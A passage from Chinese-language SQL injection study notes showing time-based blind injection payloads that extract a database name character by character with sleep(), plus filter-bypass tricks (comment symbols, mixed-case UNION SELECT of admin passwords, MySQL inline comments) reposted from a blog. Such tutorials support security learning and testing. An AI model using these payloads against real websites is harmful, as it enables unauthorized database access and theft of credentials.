 #### payload的构建
```sql
?id=1' and if(ascii(substr((select database()),1,1))>=ASCII码,sleep(0),sleep(3))--+

?id=1' and if(ascii(substr((select database()),1,1))<=ASCII码,sleep(0),sleep(3))--+

#用二分法将第一位字符验证出来

?id=1' and if(ascii(substr((select database()),2,1))>=ASCII码,sleep(0),sleep(3))--+

?id=1' and if(ascii(substr((select database()),2,1))<=ASCII码,sleep(0),sleep(3))--+

#用二分法将第二位字符验证出来

以此类推最终得到所有字符
```

<font style="color:#601BDE;">注：相比于布尔盲注多了一个判断语句 截取字符和比较都是一样的 注入过程和布尔注入也是一样的这里就不展示了</font>

# SQL注入中常用的绕过过滤的方法
转载链接[链接](https://blog.csdn.net/weixin_42478365/article/details/119300607?ops_request_misc=&request_id=&biz_id=102&utm_term=SQL%E6%B3%A8%E5%85%A5%E4%B8%AD%E5%B8%B8%E7%94%A8%E7%9A%84%E7%BB%95%E8%BF%87%E8%BF%87%E6%BB%A4%E7%9A%84%E6%96%B9%E6%B3%95&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-119300607.142^v100^pc_search_result_base7&spm=1018.2226.3001.4187)

### <font style="color:#000000;">1.注释符号绕过</font>
```sql
--  注释内容
# 注释内容
/*注释内容*/
;
;%00
```

### 2.大小写绕过
如果用关键字阻塞过滤器显得不够聪明，可以通过变换攻击字符串中字符的大小写来避开它们，因为数据库使用不区分大小写的方式处理SOL关键字。例如，如果下列输入被阻止:

```sql
UNION SELECT password FROM tblUsers WHERE username='admin'--
```

可以通过下列方法绕开过滤器:

```sql
uNiOn SeLeCt password FrOm tblUsers WhErE username='admin'-- 
```

### 3.内联注释绕过
内联注释就是把一些特有的仅在MYSQL上的语句放在 /!../ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。

```sql
 select * from cms_users where userid=1 union /*!select*/ 1,2,3;
```
